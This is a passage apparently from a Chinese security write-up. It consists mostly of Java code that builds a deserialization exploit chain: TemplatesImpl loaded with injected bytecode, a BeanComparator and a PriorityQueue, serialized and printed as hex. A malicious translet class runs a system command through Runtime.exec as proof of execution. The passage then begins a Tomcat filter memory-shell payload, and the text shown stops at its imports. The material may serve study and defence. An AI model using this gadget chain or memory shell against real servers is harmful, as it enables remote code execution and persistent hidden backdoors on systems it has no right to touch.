 ```plain
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.get(Serialize_Evil.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "123");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        setFieldValue(priorityQueue, "queue", new Object[]{templates, templates});
        setFieldValue(priorityQueue, "size", 2);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        System.out.println(toHexAscii(baos.toByteArray()));
    }
}
```

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class  Serialize_Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public Serialize_Evil() throws Exception {
        super();
        Runtime.getRuntime().exec("ping xxxxx");
    }
}
```

如果要打一个 filter 内存马

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
```
